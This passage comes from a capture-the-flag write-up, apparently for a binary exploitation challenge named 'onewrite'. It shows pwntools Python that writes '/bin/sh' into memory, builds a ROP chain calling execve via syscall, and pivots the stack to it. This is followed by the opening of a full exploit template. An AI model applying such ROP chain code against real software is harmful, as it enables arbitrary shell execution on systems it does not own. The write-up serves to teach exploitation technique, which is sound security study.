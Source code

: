 ```python
# 0x0000000000008076: ret;
ret = exe.address + 0x0000000000008076

binshAdr = exe.address + 0x2b33b0
# first wite "/bin/sh" to the designated place in memory
writeLoop(binshAdr, u64("/bin/sh\x00"))

log.info("binsh at "+hex(binshAdr))
'''
pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
'''

# write ropchain into memory
writeLoop(stack_leak+0xd0, ret)
writeLoop(stack_leak+0xd8, popRdi)
writeLoop(stack_leak+0xe0, binshAdr)
writeLoop(stack_leak+0xe8, popRsi)
writeLoop(stack_leak+0xf0, 0)
writeLoop(stack_leak+0xf8, popRdx)
writeLoop(stack_leak+0x100, 0)
writeLoop(stack_leak+0x108, popRax)
writeLoop(stack_leak+0x110, 59)
writeLoop(stack_leak+0x118, syscall)

#write stack pivot gadget into return address
write(stack_leak-0x8, stackPivot)
```

And that is it!  
![image](https://github.com/user-attachments/assets/f5090907-58ea-413b-901b-d4d915dcf2a3)

full exploit code:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template onewrite
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'onewrite')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
```